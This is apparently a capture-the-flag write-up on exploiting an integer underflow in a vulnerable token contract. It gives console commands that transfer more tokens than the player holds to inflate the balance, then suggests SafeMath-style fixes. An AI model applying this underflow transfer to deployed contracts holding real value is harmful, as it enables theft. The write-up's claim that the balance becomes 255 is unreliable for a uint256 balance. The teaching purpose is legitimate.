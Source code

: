 ### Task

>The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

### Observations

This contract is susceptible to overflow and underflow attacks.

There is no condition/safemath functions/check before performing mathematical calculations.

Therefore to expoit this contract, I need to transfer more tokens than I have.

### Steps

Find out how many tokens I have. 
```await contract.balanceOf(player)```

I have 20. So transfer 21 or more tokens to any address.
```await contract.transfer('0x69F1977310B0c02248D631671AF7211E2e175937', 21)```

Check balance again as the underflow should set my balance to 255.
```await contract.balanceOf(player)```

Easy to avoid over/underflow exploits by using a condition such as:
```
if(a + c > a) {
  a = a + c;
}
```
Or OpenZeppelin SafeMath lib:
```
a = a.add(c);
```
